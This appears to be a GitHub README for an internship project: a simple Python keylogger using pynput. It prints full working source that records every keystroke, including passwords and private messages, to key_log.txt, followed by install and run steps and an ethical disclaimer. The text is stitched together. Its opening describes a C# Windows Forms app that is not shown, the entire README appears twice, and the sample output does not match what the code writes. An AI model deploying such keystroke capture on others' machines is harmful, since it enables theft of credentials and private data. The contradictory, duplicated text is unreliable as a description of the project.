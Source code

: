 # Prodigyinfotech-cybersecurity-internship-task-4
This project is a simple Keylogger application built in C# using Windows Forms. The application runs with a blank form (no buttons or controls), and continuously monitors all key presses made by the user while the form is active. Every keystroke is recorded and stored inside a text file (key_log.txt).
🖥️ Task-04: Simple Keylogger

Prodigy Infotech Internship Project

📌 Overview

This project is a Simple Keylogger built in Python using the pynput library.
It continuously monitors keystrokes and logs them into a text file (key_log.txt).
The program stops gracefully when the ESC key is pressed.

🎯 Objectives

Capture all keyboard inputs.

Save keystrokes in a log file.

Handle both normal keys and special keys.

Stop logging when ESC is pressed.

🛠️ Tools & Technologies

Language: Python 3.x

Library: pynput

Platform: Windows/Linux

Output File: key_log.txt

🚀 Implementation
📂 Code File: keylogger.py
from pynput import keyboard

# File where keystrokes will be saved
log_file = "key_log.txt"

def on_press(key):
    try:
        # Try to log the character key
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Handle special keys (like enter, space, shift, etc.)
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

def on_release(key):
    # Stop the keylogger if ESC is pressed
    if key == keyboard.Key.esc:
        print("\n[+] Keylogger stopped (ESC pressed).")
        return False

print("[+] Keylogger is running... (Press ESC to stop)")

# Start listening to the keyboard
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

📂 Output Example

If user types:

hello 123


Then key_log.txt will contain:

h e l l o [Key.space] 1 2 3 [Key.enter] [Key.esc]

📌 How to Run

Install required library:

pip install pynput


Run the program:

python keylogger.py


Type anything in your system.

Press ESC to stop logging.

Check the key_log.txt file for recorded keystrokes.

⚠️ Ethical Disclaimer

This project is for educational purposes only under the Prodigy Infotech internship.
Keyloggers can capture sensitive information (like passwords & private messages).
Do NOT use it for malicious or illegal activities. Always ensure proper consent before running.🖥️ Task-04: Simple Keylogger

Prodigy Infotech Internship Project

📌 Overview

This project is a Simple Keylogger built in Python using the pynput library.
It continuously monitors keystrokes and logs them into a text file (key_log.txt).
The program stops gracefully when the ESC key is pressed.

🎯 Objectives

Capture all keyboard inputs.

Save keystrokes in a log file.

Handle both normal keys and special keys.

Stop logging when ESC is pressed.

🛠️ Tools & Technologies

Language: Python 3.x

Library: pynput

Platform: Windows/Linux

Output File: key_log.txt

🚀 Implementation
📂 Code File: keylogger.py
from pynput import keyboard

# File where keystrokes will be saved
log_file = "key_log.txt"

def on_press(key):
    try:
        # Try to log the character key
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Handle special keys (like enter, space, shift, etc.)
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

def on_release(key):
    # Stop the keylogger if ESC is pressed
    if key == keyboard.Key.esc:
        print("\n[+] Keylogger stopped (ESC pressed).")
        return False

print("[+] Keylogger is running... (Press ESC to stop)")

# Start listening to the keyboard
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

📂 Output Example

If user types:

hello 123


Then key_log.txt will contain:

h e l l o [Key.space] 1 2 3 [Key.enter] [Key.esc]

📌 How to Run

Install required library:

pip install pynput


Run the program:

python keylogger.py


Type anything in your system.

Press ESC to stop logging.

Check the key_log.txt file for recorded keystrokes.

⚠️ Ethical Disclaimer

This project is for educational purposes only under the Prodigy Infotech internship.
Keyloggers can capture sensitive information (like passwords & private messages).
Do NOT use it for malicious or illegal activities. Always ensure proper consent before running.


Author
Saira Arshad

